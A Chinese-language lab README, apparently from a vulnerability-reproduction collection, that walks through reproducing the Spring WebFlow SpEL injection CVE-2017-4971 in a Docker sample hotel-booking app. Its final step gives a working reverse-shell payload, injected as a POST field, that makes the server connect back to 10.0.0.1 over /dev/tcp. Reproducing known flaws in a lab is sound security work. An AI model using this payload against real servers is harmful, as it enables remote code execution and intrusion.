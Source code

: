 # Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

参考链接：

- https://threathunter.org/topic/593d562353ab369c55425a90
- https://pivotal.io/security/cve-2017-4971

## 测试环境

执行如下命令启动一个基于Spring WebFlow 2.4.4的Web应用：

```
docker compose up -d
```

等待环境启动后，访问`http://your-ip:8080`，将看到一个酒店预订的页面，这是spring-webflow官方给的简单示例。

## 漏洞复现

首先访问`http://your-ip:8080/login`，用页面左边给出的任意一个账号/密码登录系统：

![](1.png)

然后访问id为1的酒店`http://your-ip:8080/hotels/1`，点击预订按钮"Book Hotel"，填写相关信息后点击"Process"（从这一步，其实WebFlow就正式开始了）：

![](2.png)

再点击确认"Confirm"：

![](3.png)

此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：

```
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub
```

![](4.png)

（注意：别忘记URL编码）

成功执行，获得shell：

![](5.png)
